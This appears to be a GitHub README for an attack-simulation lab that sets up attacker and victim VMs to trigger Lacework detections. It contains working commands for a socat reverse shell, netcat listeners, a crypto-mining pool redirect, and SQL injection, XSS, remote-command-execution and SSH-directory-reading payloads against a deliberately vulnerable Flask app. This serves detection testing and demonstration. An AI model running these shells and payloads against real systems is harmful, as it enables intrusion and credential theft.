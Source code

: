 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/10402fa0-0c8f-4911-a89b-4795f1ff6b81)


> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo

```
git clone https://github.com/svuillaume/demo_simulator
```

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# ▶️ Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```
socat file:`tty`,raw,echo=0 tcp-listen:5555
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**

```
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

# 🚀 HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### SQLI - SQL Injection

http://<victim>:5000/user?id=123
http://<victim>:5000/user?id=1%20OR%201=1

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)


**Example:**

```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

### Fetch AWS secret

```
export AWS_SECRET_ACCESS_KEY="my_fake_secret_key"
python3 web.py
```

```
http://<victim>:5000/secret
```

### RCE - Remote Code Exec

```
http://<victim>:5000/cmd?exec=ls%20-l%20/
http://localhost:5000/cmd?exec=ll%20.ssh%20/"](http://3.96.142.208:5000/cmd?exec=ls%20-l%20~/.ssh
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**

```
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***

```
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
```
